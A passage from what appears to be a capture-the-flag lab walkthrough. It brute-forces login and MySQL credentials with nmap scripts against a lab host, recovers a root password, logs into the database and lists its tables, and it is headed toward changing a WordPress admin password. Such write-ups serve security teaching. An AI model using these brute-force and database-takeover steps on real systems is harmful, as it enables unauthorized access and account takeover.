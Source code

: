 		|     webadmin:<empty> - Valid credentials
		|     admin:<empty> - Valid credentials
		|     test:<empty> - Valid credentials
		|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0

		Nmap done: 1 IP address (1 host up) scanned in 472.02 seconds

## Brute force credentials of MySQL server

  - We could put this list of users into a text file and conduct an brute force attack however is this case we can simply use antoher buitin nmap script for MySQL brute force.
	
		nmap --script=mysql-brute -p 3306 192.168.94.88
		
	We see that the script finds a password for the root user
	
		Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 16:58 EDT
		Nmap scan report for sunset-midnight (192.168.94.88)
		Host is up (0.83s latency).

		PORT     STATE SERVICE
		3306/tcp open  mysql
		| mysql-brute: 
		|   Accounts: 
		|     root:robert - Valid credentials
		|_  Statistics: Performed 31749 guesses in 600 seconds, average tps: 50.1

		Nmap done: 1 IP address (1 host up) scanned in 600.67 seconds:
		
	User: root
	Pass: robert
	
## Modify admin user password in Wordpress database to gain access the the Wordpress Control Panel

- With our credentials we can now log into the SQL server:

	  mysql --host=192.168.94.88 -u root -p
	  
- Once connected we can list the available databases:

	  MariaDB [(none)]> SHOW DATABASES;
	  +--------------------+
	  | Database           |
	  +--------------------+
	  | information_schema |
	  | mysql              |
	  | performance_schema |
	  | wordpress_db       |
	  +--------------------+
	  4 rows in set (0.168 sec)
